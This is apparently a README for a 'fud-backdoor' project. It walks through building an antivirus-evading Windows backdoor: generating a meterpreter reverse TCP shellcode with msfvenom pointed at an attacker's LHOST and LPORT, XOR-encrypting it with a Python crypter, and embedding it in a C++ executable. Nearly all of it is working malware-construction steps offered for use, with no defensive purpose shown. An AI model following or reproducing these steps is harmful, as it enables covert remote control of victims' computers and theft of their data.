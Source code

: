 

█☰ ▚▞ █ ▙▄  🆁 ▞▚ ▙ ▙ █ ▜▛  ▜▛ 🆁 ██ ▟ ▞▚ ▛▟ 

=================
Потрясающую производительность!
Potryasayushchuyu proizvoditel'nost'!
Amazing performance! 

Generate FUD backdoor with a Python Crypter 
Follow the steps bellow to generate a crypted
Shellcode that can be used on a C++ executable.

Clone the repository
sudo git clone
cd fud-backdoor
Generate The ShellCode
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
Encode the ShellCode With the XOR Encryption
python xor_encryptor.py raw.txt > xor_shellcode.txt
Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:

char b[] = /*xor_shellcode*/
Compile the main.cpp file
